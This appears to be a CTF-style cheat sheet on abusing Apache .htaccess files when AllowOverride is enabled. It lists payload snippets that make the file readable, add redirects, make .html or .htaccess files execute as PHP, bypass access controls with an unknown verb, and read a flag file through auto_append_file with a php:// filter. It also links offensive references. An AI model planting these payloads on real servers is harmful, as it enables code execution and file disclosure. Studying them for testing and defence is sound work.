 
# Apache Configuration using .htaccess

`.htaccess` files are used to configure a web directory and its subdirectories.

# .htaccess

If `AllowOverride` is set to `All`, then malicious `.htaccess` will be interpreted as legit configuration files.

**Authorize reading**
```.htaccess
<Files ".htaccess">
    Require all granted
</Files>
```

**Redirect requests**
```
Options +FollowSymLinks
RewriteEngine On
RewriteRule ^folder1.*$ https://mydomain.com/ [R=301,L]
```

**Redirect requests**
```
# Convert http://exemple.com/blabla/blabla to http://exemple.com/private/flag.txt/blabla/blabla
Redirect 301 / /private/flag.txt

# Convert http://exemple.com/blabla/blabla to http://google.com/private/flag.txt/blabla/blabla
Redirect 301 / http://google.com
```

**Interpreting as PHP**
```
# It means that all files with an extension html will execute php
AddType application/x-httpd-php .html
```

```
AddType application/x-httpd-php .htaccess
```

**Bypass .htaccess by using unkown verb**
- Works only on very old versions
```
AAAA /flag.txt
```

**Auto Append file**
```bash
php_value auto_append_file "php://filter/convert.base64-encode/resource=/private/flag.txt"
```
# Resources
- http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster
- https://github.com/wireghoul/htshells/blob/master/traversal/mod_hitlog.traversal.htaccess
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
- https://httpd.apache.org/docs/2.2/fr/howto/htaccess.html
- https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
- http://archive.justanotherhacker.com/2011/05/htaccess-based-attacks.html
- https://blog.qualys.com/vulnerabilities-threat-research/2015/10/22/unrestricted-file-upload-vulnerability
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
- https://corz.org/server/tricks/htaccess.php